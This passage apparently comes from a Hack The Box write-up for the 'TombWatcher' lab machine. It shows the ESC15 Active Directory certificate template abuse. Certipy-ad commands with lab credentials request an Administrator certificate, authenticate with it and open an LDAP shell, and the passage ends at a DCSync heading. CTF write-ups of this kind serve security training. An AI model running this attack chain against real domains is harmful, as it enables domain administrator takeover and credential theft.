 ![1](/assets/img/favicons/tombwatcher-htb/14.png)

> WebServer template vulnerable: Enrollee supplies subject + Schema v1 (ESC15).


- Exploit ESC15 (inject Certificate Request Agent policy), request a certificate on behalf of `Administrator`:
```bash
┌──root㉿kali)-[/home/kali/HTB/TombWatcher]
└─# certipy-ad req -u cert_admin@tombwatcher.htb -p 'Cyb3rtr0n@123' -ca 'tombwatcher-CA-1' -target-ip 10.10.11.72 -template WebServer -upn administrator@tombwatcher.htb -application-policies 'Client Authentication'
```
We obtained administrator.pfx successfully!

- Authenticate with certificate and open ldap_shell:
```shell
certipy-ad auth -pfx administrator.pfx -dc-ip 10.10.11.72 -ldap_shell
```
![1](/assets/img/favicons/tombwatcher-htb/15.png)

### DCSync
![1](/assets/img/favicons/tombwatcher-htb/16.png)
